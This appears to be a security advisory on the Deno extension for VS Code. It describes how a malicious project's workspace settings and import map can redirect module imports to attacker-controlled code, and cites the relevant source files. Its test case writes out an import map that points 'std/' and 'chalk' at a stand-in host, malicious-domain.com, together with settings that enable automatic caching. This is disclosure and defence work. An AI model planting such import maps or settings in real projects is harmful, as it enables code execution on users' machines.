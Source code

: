 # Vulnerabilities in Deno for Visual Studio Code

## 1. Import Map Redirection Attack

### Description
A malicious actor can create a project with a custom import map that redirects legitimate-looking imports to attacker-controlled code. When a user with the Deno extension enabled opens this project, the custom import map is applied without any explicit confirmation. When Deno code is executed, the imports are resolved using the attacker-controlled import map, resulting in loading and executing malicious code.

Step by step:
1. Attacker creates a project containing:
   - A malicious import map (e.g., `import_map.json`) that redirects standard or popular module imports to attacker-controlled URLs
   - A workspace configuration (`.vscode/settings.json`) with `"deno.enable": true` and `"deno.importMap": "./import_map.json"`
   - JavaScript/TypeScript files that import modules which appear legitimate
2. User clones/downloads and opens the project in VS Code
3. The Deno extension automatically loads the workspace settings
4. When the user runs or tests the code (or when cache-on-save is enabled), Deno uses the malicious import map to resolve imports
5. The attacker's code is downloaded and executed in the user's environment

### Impact
Critical. This attack could lead to arbitrary code execution in the user's environment. The malicious code would run with the user's permissions and could:
- Access local files accessible to the user
- Exfiltrate sensitive data
- Install malware or backdoors
- Modify project files or other accessible files

### Vulnerability Rank
High

### Currently Implemented Mitigations
The extension does show a warning when enabling import suggestions from untrusted hosts (in the `createRegistryStateHandler` function), but this does not apply to import maps themselves.

### Missing Mitigations
1. The extension should warn users when a project tries to set a custom import map in workspace settings
2. The extension could implement a trusted project mechanism to prevent automatically loading potentially dangerous settings from untrusted projects
3. Import maps could be restricted to only load from trusted domains by default

### Preconditions
1. User must have the Deno extension for VS Code installed
2. User must open a project containing a malicious import map configuration
3. User must run Deno code or have cache-on-save enabled

### Source Code Analysis
The vulnerability exists in several parts of the codebase:

1. In `client/src/debug_config_provider.ts`, the extension reads the import map configuration and passes it to Deno:
```typescript
#getAdditionalRuntimeArgs() {
  const args: string[] = [];
  const settings = this.#extensionContext.clientOptions.initializationOptions();
  // ...
  if (settings.importMap) {
    args.push("--import-map");
    args.push(settings.importMap.trim());
  }
  // ...
  return args;
}
```

2. In `client/src/extension.ts`, the extension loads configuration from workspace settings without validation:
```typescript
initializationOptions: () => {
  const denoConfiguration = vscode.workspace.getConfiguration().get(
    EXTENSION_NS,
  ) as Record<string, unknown>;
  commands.transformDenoConfiguration(extensionContext, denoConfiguration);
  return {
    ...denoConfiguration,
    // ...
  } as object;
},
```

3. This configuration is then used when executing Deno commands and tasks, as seen in `client/src/tasks.ts` and `client/src/commands.ts`.

The critical issue is that the import map value comes directly from workspace settings without validation or user prompt. As VS Code automatically applies workspace settings when opening a project, a malicious project can define a dangerous import map that will be used without the user's knowledge.

### Security Test Case
1. Create a `malicious_project` directory containing:
   ```
   malicious_project/
   ├── .vscode/
   │   └── settings.json
   ├── import_map.json
   └── app.ts
   ```

2. In `.vscode/settings.json`, add:
   ```json
   {
     "deno.enable": true,
     "deno.importMap": "./import_map.json",
     "deno.cacheOnSave": true
   }
   ```

3. In `import_map.json`, create a redirection:
   ```json
   {
     "imports": {
       "std/": "https://malicious-domain.com/fake-std-lib/",
       "chalk": "https://malicious-domain.com/fake-chalk.js"
     }
   }
   ```

4. In `app.ts`, add code that uses the redirected imports:
   ```typescript
   import { bold } from "chalk";
   import { log } from "std/log/mod.ts";

   log.info(bold("Loading secure application..."));
   // The rest of the seemingly legitimate application
   ```

5. Set up a server at `malicious-domain.com` that serves malicious code at the imported paths

6. When a user opens this project in VS Code:
   - The Deno extension sees the workspace settings and enables Deno
   - The import map configuration is applied without warning
   - When the file is saved, cache-on-save tries to cache the imports
   - The malicious code from `malicious-domain.com` is downloaded and executed
   - The attacker's code runs with the user's permissions

The user would have no indication that the imports were redirected to malicious sources, demonstrating a complete attack path.

